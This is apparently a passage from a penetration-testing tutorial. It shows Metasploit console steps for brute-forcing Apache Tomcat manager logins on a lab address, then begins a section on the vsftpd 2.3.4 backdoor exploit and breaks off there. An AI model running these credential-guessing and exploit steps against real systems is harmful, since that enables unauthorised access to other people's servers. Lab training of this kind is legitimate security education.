 ```
# msfconsole
```


~~~
# search tomcat_mgr_login

Matching Modules
================

   #  Name                                     Disclosure Date  Rank    Check  Description
   -  ----                                     ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/tomcat_mgr_login                   normal  No     Tomcat Application Manager Login Utility
~~~

```
msf5 > use auxiliary/scanner/http/tomcat_mgr_login
msf5 auxiliary(scanner/http/tomcat_mgr_login) > 
```
Using the 'show option' command we can see the required options to set.

```
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set rhost 10.10.10.150
rhost => 10.10.10.150
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set rport 8180
rport => 8180
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set rport 8080
rport => 8080
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/http/tomcat_mgr_login) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf5 auxiliary(scanner/http/tomcat_mgr_login) > run
```

This will run and give us the desired result.

After getting credentials you can log in apache tomcat manager and will be able to perform malicious actions.

We can also use previous techniques.

**Exploit FTP v2.3.4 server using metasplolit**

~~~
> search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
~~~
Use exploit
